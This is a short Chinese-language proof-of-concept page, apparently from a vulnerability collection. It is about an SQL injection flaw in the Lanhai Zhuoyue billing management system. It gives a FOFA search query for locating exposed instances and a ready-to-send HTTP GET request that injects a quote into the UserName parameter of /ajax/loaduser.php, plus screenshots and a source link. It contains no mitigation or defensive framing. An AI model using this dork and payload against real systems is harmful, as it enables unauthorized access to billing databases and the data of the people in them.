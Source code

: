 ## 蓝海卓越计费管理系统SQL注入漏洞



## fofa

```
title=="蓝海卓越计费管理系统"
```



## poc

```
GET /ajax/loaduser.php?UserName=aaa%27 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: PHPSESSID=r1me93qh1lsje0ece8n0ma9c54
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

![image-20240523194234425](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231942480.png)

![image-20240523194330249](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231943309.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/aUB1XBvGcSFDFgfd-IG8tA